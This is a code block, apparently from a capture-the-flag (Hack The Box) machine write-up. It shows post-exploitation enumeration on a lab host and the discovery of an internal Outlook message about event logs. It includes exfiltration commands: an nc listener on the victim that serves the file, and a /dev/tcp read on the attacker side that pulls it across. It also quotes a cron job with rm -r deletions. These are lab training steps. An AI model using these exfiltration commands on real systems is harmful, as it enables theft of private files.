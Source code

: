 ```shell
*/5 * * * * date >> /usr/local/investigation/analysed_log && echo "Clearing folders" >> /usr/local/investigation/analysed_log && rm -r /var/www/uploads/* && rm /var/www/html/analysed_images/*

╣ Unexpected in /opt
exiftool

╣ Interesting GROUP writable files (not in Home) (max 500)
Group www-data: /usr/local/investigation/analysed_log
SNIP

timeout 1m ./pspy   # nothing interesting ran by root

# changed to /usr/local/investigation/ and discovered 'Windows Event Logs for Analysis.msg'
cd /usr/local/investigation/
file 'Windows Event Logs for Analysis.msg'
#--snip--#
Windows Event Logs for Analysis.msg: CDFV2 Microsoft Outlook Message

strings -e l 'Windows Event Logs for Analysis.msg' # the file had contents as shown below
<<SNIP
Windows Event Logs for Analysis
Steve Morton
00000006
/o=ExchangeLabs/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=0355e839153a4fa590b4fd2c52a5d136-Brad Lynch
brad.lynch@pacaerocon.com.au
Hi Steve,
Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 
Regards
brad.lynch@pacaerocon.com.au
thomas.jones@eforenzics.htb

SMTP
thomas.jones@eforenzics.htb
From: Thomas Jones <thomas.jones@eforenzics.htb>
To: Steve Morton <steve.morton@eforenzics.htb>
Subject: Windows Event Logs for Analysis
Thread-Topic: Windows Event Logs for Analysis
Date: Tue, 16 Sept 2022 00:30:29 +0000
Accept-Language: en-US
Content-Language: en-US
Windows Event Logs for Analysis
thomas.jones@eforenzics.htb

evtx-logs.zip
steve.morton@eforenzics.htb
SNIP

# on the victim's machine
nc -q 5 -lvnp 8005 < 'Windows Event Logs for Analysis.msg'

# on the attacker's machine
tee -a forensic.msg < /dev/tcp/10.10.11.197/8005

sudo apt install evolution libemail-outlook-message-perl  # install evolution mail client and a .msg to .eml converter
msgconvert forensic.msg     # convert .msg to .eml
```
